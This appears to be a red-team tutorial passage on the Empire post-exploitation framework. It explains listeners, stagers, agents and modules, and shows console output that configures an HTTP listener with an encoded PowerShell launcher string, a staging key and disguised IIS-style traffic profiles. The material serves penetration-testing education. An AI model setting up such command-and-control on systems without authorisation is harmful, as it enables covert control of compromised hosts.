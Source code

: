 ### Understanding Empire's Architecture

Empire uses a client-server architecture:

1. **Listeners**: Server components waiting for agent connections
2. **Stagers**: Payloads that establish initial connection to listeners
3. **Agents**: Implants running on compromised hosts
4. **Modules**: Functionality for post-exploitation activities

### Setting Up Listeners

Listeners are the servers that receive connections from compromised hosts:

```
Empire > listeners
[!] No listeners currently active 

Empire: listeners > uselistener http
Empire: listeners/http > info

Name: HTTP[S]
Category: client_server

Authors:
  @harmj0y

Description:
  Starts a http[s] listener (PowerShell or Python) that uses a
  GET/POST approach.

HTTP[S] Options:

  Name              Required    Value                            Description
  ----              --------    -------                          -----------
  Name              True        http                             Name for the listener.
  Host              True        http://192.168.52.130            Hostname/IP for staging.
  BindIP            True        0.0.0.0                          The IP to bind to on the control server.
  Port              True        80                               Port for the listener.
  Launcher          True        powershell -noP -sta -w 1 -enc   Launcher string.
  DefaultDelay      True        5                                Agent delay/jitter in seconds
  DefaultJitter     True        0.0                              Agent jitter in 0.0-1.0 range
  DefaultLostLimit  True        60                               Number of missed checkins before exiting
  DefaultProfile    True        /admin/get.php,/news.php,/login/ Default communication profile for the agent.
                                process.php|Mozilla/5.0 (Windows
                                NT 6.1; WOW64; Trident/7.0;
                                rv:11.0) like Gecko
  CertPath          False                                        Certificate path for https listeners
  KillDate          False                                        Date for the listener to exit (MM/dd/yyyy)
  WorkingHours      False                                        Hours for the agent to operate (09:00-17:00)
  Headers           True        Server:Microsoft-IIS/7.5         HTTP headers for the listener
  Cookie            False       SESSIONID                        Custom Cookie Name
  StagerURI         False                                        URI for the stager. Must use /download/. Example: /download/stager.php
  UserAgent         False       default                          User-agent string to use for the staging request
  StagingKey        True        6gQhIpj0aVfiGmccIzUGiw==         Staging key for initial agent negotiation
  ProxyCreds        False       default                          Proxy credentials ([domain\]username:password) to use for request
```

 [Version]: 4.6.0 BC Security | [Web]: https://github.com/BC-SECURITY/Empire